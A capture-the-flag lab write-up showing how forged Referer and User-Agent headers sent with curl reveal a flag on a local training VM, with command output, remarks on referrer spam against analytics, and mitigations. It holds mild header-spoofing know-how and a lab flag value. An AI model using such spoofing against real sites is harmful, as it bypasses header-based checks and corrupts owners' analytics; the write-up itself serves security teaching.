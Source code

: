 # Custom curl request with evil headers

## How we found the breach

After inspecting the page: `http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f` several suspicious html comments can be found inside it.

```html
<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

The first one suggests that we're coming from a specific url, well then lets just try it.

## Custom curl Referrer header

We will use `curl` to perform our requests, using `curl --header "Header_foo: bar"` we can define custom header key value pairs.
Also we will make a diff on the fly of the default page versus our custom curl.
First the `Referrer` header using `curl --header "Referer: https://www.nsa.gov/" url`.

```bash
diff <(curl --silent "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f") <(curl --silent --header "Referer: https://www.nsa.gov/" "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f")
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> FIRST STEP DONE<audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

As we can see the server sent back a different page content `FIRST STEP DONE`
The second suspicious comment is talking about a browser, lets play with the `User-Agent` header.

## Custom curl User-Agent header

Lets take our previous step command and add custom header for the user agent, using `curl --header "User-Agent: browser"`.

```bash
diff <(curl --silent "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f") <(curl --silent --header "Referer: https://www.nsa.gov/" --header "User-Agent: ft_bornToSec" "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f")
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> <center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

There we go ! In the returned page we can find the flag !

## How to exploit the breach

If the server makes assertions on the headers of the request, it should never be, then depending on the resulting operations can be really risky if any transaction or authentication is involved.

One more realistic hack is to send requests – with curl – to a website with a crazy `Referer` header. This header is monitored by websites to know where their users come from. A hacker may corrupt the statistics, which could mislead business decisions.

More information about how analytics service do to determine where users come from:

- https://plausible.io/docs/top-referrers
- https://plausible.io/blog/referrer-policy
- https://www.optimizesmart.com/geek-guide-removing-referrer-spam-google-analytics/
- https://kinsta.com/blog/google-analytics-spam/

## How to avoid the breach

As for everything that builds a request, specfic headers can be set manually by an hacker.
To avoid such security issue, the server should not be making high risky assertion depending on the request's header.

To protect your analytics depending on what service you use you could either establish `regex` that would allow human readable referrer only or a blacklist forbidding known `Ghost Traffic` referrers.
